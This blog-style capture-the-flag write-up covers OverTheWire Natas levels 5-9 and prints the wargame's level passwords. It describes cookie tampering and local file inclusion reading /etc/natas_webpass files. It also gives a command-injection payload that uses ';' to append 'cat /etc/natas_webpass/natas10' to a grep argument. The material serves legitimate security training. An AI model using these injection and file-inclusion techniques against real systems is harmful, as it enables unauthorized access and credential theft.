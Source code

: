 ```yaml
---
title: "Over the Wire NATAS: Levels 5-9"
date: 2020-11-26 16:04:00 -0800
categories: [overthewire, writeup]
tags: [writeup, web, linux, commandinjection]
toc: true
---
```

## Introduction

This is the second of my writeups for OverTheWire's Natas series of challenges. You can view the first part [here](../otw-natas-0-4/).

## Level 5

Username: natas5

Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Upon opening the webpage, I see the following message:

> Access disallowed. You are not logged in

There was nothing in the source code so I decided to check the cookies associated with the page. On Firefox/Chrome, this can be done by using the shortcut ``Ctrl+Shift+I`` --> ``Storage`` --> ``Cookies``. 

I see one cookie named ``loggedin`` with a value of 0. From experience, I can make the assumption that 0 = False, therefore 1 would equal True. I change the value of the cookie to 1 and refreshed the page.

The text on the page now shows that I am logged in and presents the flag for the next level.

```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

## Level 6

Username: natas6

Password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

Upon opening the webpage, I see that there is a form where I can submit a query. There is also a link to the source code for this form.

This snippet of code looks interesting.

```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

It looks like the ``$secret`` variable our input is being compared to comes from the file ``includes/secret.inc``. I naviagte to that web page to find the secret key.

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the value of this variable on the form gives me the password for the next level.

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
```

## Level 7

User: Natas7

Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

Upon opening the challenge, I see links to two different pages: ``home`` and ``about``. 

I'll take a look at ``home``. 

There are things that stick out right away. The first thing is that from the source code, there is an interesting HTML comment.

```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

The second thing is from the URL of the home page.

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
```

The ``?page=`` parameter shows that this is a ``Local File Inclusion`` challenge. We can specify the path of the file we want to view, so let's view ``/etc/natas_webpass/natas8`` as that is where the password should be.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

> DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

## Level 8

User: Natas8
Password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

It looks like there is another form where we can submit a query. Let's view the source code again:

```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>
```

Ok, it looks like we have to enter a string that, when passed through the ``encodeSecret`` function, equals the encodedSecret variable in the code.

Three operations are applied to it. First, it is encoded in base64. Second, the string is reversed. Finally, the ``bin2hex`` function is used. I'm not exactly sure what this does, so I google it. 

> Returns an ASCII string containing the hexadecimal representation of str.

Sounds simple enough, if we pass it through a hex value -> ascii representation tool online, we should be able to undo that.

Using [this](https://www.rapidtables.com/convert/number/hex-to-ascii.html) tool, I was able to get the following string:

> ==QcCtmMml1ViV3b

Now, I'll use [this](https://codebeautify.org/reverse-string) tool to reverse the string.

> b3ViV1lmMmtCcQ==

Finally, I'll base64 decode it using [this](https://www.base64decode.org/) tool.

We end up with ``oubWYf2kBq``, which when I submit as the query produces the password needed for level 9.

```
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

## Level 9

User: natas9

Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

We are given a form with the prompt ``Find words containing:``. Let's view the source code.

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

So it takes whatever we put in the form and throws it into the command ``grep -i $key dictionary.txt``.

We can control whatever is in ``$key``, so we can easily abuse this form. There are several different ways to easily solve it.

I will solve it by absuing this character: ``;``. A semicolon is treated like you pressing the enter key, so it starts a new command.

Knowing that, we can assemble a simple injection to run commands.

```
wordthatwillnotbefound dictionary.txt; ls; grep -i wordthatwillnotbefound
```

If we use this as our query, this is what the server will run:

```
grep -i wordthatwillnotbefound dictionary.txt; ls; grep -i wordthatwillnotbefound dictionary.txt
```

Keeping in mind the first and last commands will not return anything, the output of the command ``ls`` is all that we will see.

This is the output:

```
dictionary.txt
index-source.html
index.php
index.php.tmpl
```

Cool! It works. Looking back at Level 7, we know that the flag for the next challenge will always be stored at ``/etc/natas_webpass/natas<next level>``, in this case the next level is 10, so our injection should reflect that.

```
wordthatwillnotbefound dictionary.txt; cat /etc/natas_webpass/natas10; grep -i wordthatwillnotbefound
```

```
Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

## Conclusion

So far, all of the changes have been basic but I'm quickly reaching the limits of what I've already known/experienced and seen in previous CTFs. I'm excited to see how the next few levels will play out.